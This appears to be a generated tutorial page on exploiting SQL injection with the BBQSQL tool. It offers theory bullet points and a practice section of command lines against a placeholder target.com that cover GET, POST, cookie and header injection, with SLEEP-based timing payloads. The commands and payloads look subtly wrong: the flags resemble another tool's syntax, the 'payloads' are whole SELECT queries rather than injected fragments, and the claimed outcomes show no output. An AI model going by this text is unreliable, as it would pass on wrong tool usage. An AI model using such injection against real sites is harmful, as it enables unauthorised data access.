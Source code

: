 ```yaml
---
title: 'SQL Injection: BBQSQL Usage Examples'
description: Explore practical BBQSQL usage examples for GET, POST, cookie, and header
  SQL injection vulnerabilities with payload configurations.
keywords:
- BBQSQL
- SQL injection
- GET injection
- POST injection
- cookie injection
- header injection
- sleep-based payloads
- payload debugging
- timing confirmation
---
```


# Usage Examples

## Context

This article demonstrates practical usage examples of BBQSQL, a tool used for exploiting SQL injection vulnerabilities in web applications. The methods covered include GET, POST, cookie, and header injection, including the use of sleep-based payloads to confirm vulnerabilities. Assumed knowledge includes understanding of HTTP methods, SQL query structures, HTTP headers, and basic SQL injection techniques.

## Theory

### GET Injection with BBQSQL

GET injections involve identifying parameters within the URL of a GET request that can be manipulated to exploit SQL injection vulnerabilities.

- **Identify Vulnerable GET Parameter**: Determine which URL parameters might be susceptible to SQL injection.
- **Configure BBQSQL with Target URL and Parameter**: Set up BBQSQL to target the identified parameter for an injection test.
- **Craft SQL Payload for Data Extraction**: Use an SQL payload designed to extract information by exploiting the vulnerability.

### POST Injection with BBQSQL

In POST injection, the data sent via HTTP POST requests are targeted for injection.

- **Identify Vulnerable POST Parameter**: Look for parameters in a POST request that might be vulnerable to SQL injection.
- **Set BBQSQL to Use POST Method**: Configure BBQSQL to specifically target POST requests with potential injections.
- **Design Payload to Exploit SQL Injection**: Create a payload that exploits the SQL injection vulnerability and retrieves data.

### Cookie Injection with BBQSQL

Cookies sometimes hold parameters vulnerable to SQL injection.

- **Detect SQL Injection in Cookie Value**: Examine cookie values for potential injection vulnerabilities.
- **Configure BBQSQL to Manipulate Cookies**: Use BBQSQL to target and manipulate cookie values directly.
- **Execute Payload to Retrieve Data**: Deploy payloads that exploit vulnerabilities in cookie values.

### Header Injection with BBQSQL

Injecting into HTTP headers exploits SQL vulnerabilities at the HTTP header level.

- **Find SQL Injection in HTTP Headers**: Identify headers that can be exploited for SQL injection.
- **Set BBQSQL to Inject into Headers**: Configure BBQSQL to use HTTP headers as the injection point.
- **Deploy Payload for Data Extraction**: Utilize payloads to extract data via header injection.

### Sleep Based Payloads

Sleep based payloads are used to confirm the presence of SQL injection by observing response delays.

- **Use Time Delays to Confirm Injection**: Implement payloads that cause the server to delay its response as a confirmation method.
- **Craft Payloads with SQL Sleep Functions**: Design your SQL payloads to include delay functions such as `SLEEP()`.

### Example Configurations

Predefined configurations make it easier to set up BBQSQL for common exploitation scenarios.

- **Predefined BBQSQL Configurations for Common Scenarios**: Utilize standard configurations to speed up setup.
- **Modify Configurations for Specific Targets**: Adapt configurations for the specific database schema of your target.

### Template Queries

SQL template queries offer a reusable approach for repeated tasks.

- **Reusable SQL Templates for BBQSQL**: Use predefined SQL templates for common querying tasks.
- **Adapt Templates to Target Database Schema**: Modify these templates to fit the target database’s schema effectively.

### Payload Debugging

Essential for ensuring payload execution without errors.

- **Identify and Fix Payload Errors**: Use BBQSQL's debugging features to identify and correct issues in payloads.
- **Use BBQSQL Debugging Features**: Leverage built-in tools for troubleshooting payload execution.

### Timing Confirmation

Analyzing response times confirms successful injection.

- **Verify Successful Injection via Response Times**: Use the delay in response times as a metric for confirmation.
- **Analyze Timing Data to Confirm SQL Injection**: Look at the timing data provided by BBQSQL to validate your injection success.

## Practice

### GET Injection with BBQSQL

- **Configure BBQSQL**:
  
  ```bash
  bbqsql -u 'http://target.com/page?param=1' --method GET --param param --technique B --threads 5 --verbose --proxy http://127.0.0.1:8080
  ```

- **Use Sleep-Based Payload**:

  ```sql
  SELECT * FROM users WHERE id=1 AND SLEEP(5)
  ```
  This payload leverages the SLEEP function to create a delay, confirming the presence of SQL injection by observing response delay.

*Outcome*: Extracted data from a vulnerable GET parameter.

### POST Injection with BBQSQL

- **Configure BBQSQL**:

  ```bash
  bbqsql -u 'http://target.com/login' --method POST --data 'username=admin&password=pass' --param password --technique B --threads 5 --verbose
  ```

- **Craft Payload**:

  ```sql
  SELECT * FROM users WHERE username='admin' AND password='pass' AND SLEEP(5)
  ```
  This payload targets a login form where the password field is vulnerable to SQL injection.

*Outcome*: Accessed sensitive data via POST parameter.

### Cookie Injection with BBQSQL

- **Configure BBQSQL**:

  ```bash
  bbqsql -u 'http://target.com/dashboard' --cookie 'session=abc123' --param session --technique B --threads 5 --verbose
  ```

- **Inject Payload**:

  ```sql
  SELECT * FROM sessions WHERE session_id='abc123' AND SLEEP(5)
  ```
  This injection occurs within the session cookie value.

*Outcome*: Retrieved data through cookie injection.

### Header Injection with BBQSQL

- **Configure BBQSQL**:

  ```bash
  bbqsql -u 'http://target.com/resource' --header 'User-Agent: Mozilla/5.0' --param User-Agent --technique B --threads 5 --verbose
  ```

- **Exploit Header**:

  ```sql
  SELECT * FROM logs WHERE user_agent='Mozilla/5.0' AND SLEEP(5)
  ```
  Investigates SQL injection within the User-Agent header.

*Outcome*: Extracted information via header injection.

## Tools

- **BBQSQL**